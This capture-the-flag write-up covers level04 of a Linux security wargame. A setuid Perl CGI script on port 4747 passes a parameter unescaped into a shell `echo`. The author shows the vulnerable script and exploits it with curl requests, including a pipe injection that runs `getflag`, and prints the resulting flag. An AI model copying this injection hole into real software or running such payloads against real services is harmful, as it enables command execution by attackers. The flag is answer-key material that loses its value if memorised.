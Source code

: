 # level04

- We log as `level04`

- We found two perl scripts, both named `level04.pl` , the first in the `home/user/level04` and the other one in `/var/www/level04`

- The content of both file is identical:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
}
x(param("x"));
```
- The permissions are different for each files:

	`home/user/level04/level04.pl:`
	>`-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl`

	`var/www/level04.pl:`
	>`-r-xr-x---+ 1 flag04 level04 152 Aug 17 22:43 level04.pl`

- The seconf file has extended permissions:
```
# file: level04.pl
# owner: flag04
# group: level04
user::r-x
group::r-x
group:www-data:r-x
mask::r-x
other::---
```

- With all those elements we can conclude that:
	- `#!/usr/bin/perl` - This script is written in perl
	- `use CGI qw{param};` - It is a CGI
	- `group:www-data:r-x` - It is used by a web service
	- `# localhost:4747` - The service is running on port `4747`
	- `$y = $_[0];` - The script takes a single parameter
	- `x(param("x"));` - The parameter is named `x`
	- `print 'echo $y 2>&1';` - The parameter is run through `echo` without any parsing

- This means the parameter of this CGI is probably vulnerable to command injection

- We try executing the CGI using `curl -X POST -d "x= $PWD" http://localhost:4747`

- We can read `/var/www/level04` the `PWD` environment variable was successfully passed to `echo`

- We try injecting the `getflag` command using a pipe: `curl -X POST -d "x= | getflag" http://localhost:4747`

- We get the flag: `ne2searoevaevoem4ov4ar8ap`
